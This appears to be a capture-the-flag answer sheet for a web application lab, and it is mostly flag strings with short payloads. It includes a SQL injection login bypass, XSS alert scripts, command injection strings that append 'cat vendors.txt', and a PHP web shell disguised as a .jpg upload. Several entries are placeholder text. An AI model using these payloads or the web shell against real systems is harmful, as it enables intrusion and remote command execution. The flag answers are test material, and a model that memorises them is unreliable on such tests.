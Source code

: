 # Web Application

## Expert

### Flag 13: 

```shell
dssd
```

## Advanced

### Flag 7:

![image](https://github.com/user-attachments/assets/d116efc3-3782-4a70-b251-40c18580b1ce)
</br>
```shell
admin

password' OR '1'='1

bcs92sjsk233
```

### Flag 15: 

```shell
jj
```

### Flag 12: 

```shell
jj
```

### Flag 4: 

```shell
jj
```

### Flag 14: 

```shell
jj
```

## Intermediate

### Flag 6: LFI (advanced)

![image](https://github.com/user-attachments/assets/336f1e66-981e-4129-a1e5-c169115de596)
</br>
```shell
ld8skd62hdd
```

### Flag 11:

![image](https://github.com/user-attachments/assets/faa9d0d2-6636-421c-bc07-be95f748ce7b)
</br>
```shell
192.168.14.35 | cat vendors.txt

opshdkasy78s
```

### Flag 2: 

```shell
dd
```

## Easy

### Flag 1: Reflected XSS Payload
![image](https://github.com/user-attachments/assets/601b11ff-c6cb-4bb2-9c31-2e3363eadaea)
</br>
```shell
<script>alert('flag1')</script>

f76sdfkg6sjf
```

### Flag 3: Access the Comments.php page and make a pop-up appear
![image](https://github.com/user-attachments/assets/def2ee3e-d1a6-4b29-8adb-888c0b5e2abb)
</br>
```shell
<script>alert('flag3')</script>

sd7fk1nctx
```

### Flag 5: Local File Inclusion Exploit
![image](https://github.com/user-attachments/assets/9617e7ca-c652-4246-b455-903923f803ab)
</br>
```shell
nano lfi.php.jpg

<?php system($_GET['cmd']); ?>

mmssdi73g
```

### Flag 8:  Login.php page
![image](https://github.com/user-attachments/assets/50ac19c5-5ba6-4a14-ae38-18c857564cac)
</br>
```shell
username: dougquaid

password: kuato

87fsdkf6djf
```

### Flag 9:  Sensitive data exposure
![image](https://github.com/user-attachments/assets/f352e0e9-ed93-44b9-ab03-d82699464f6e)
</br>
```shell
192.168.14.35/robots.txt

dkkdudfkdy23
```

### Flag 10: Command injection
![image](https://github.com/user-attachments/assets/7568663d-0f62-4f12-aed1-be1e0c71debf)
</br>
```shell
192.168.14.35&&cat vendors.txt

ksdnd99dkas
```



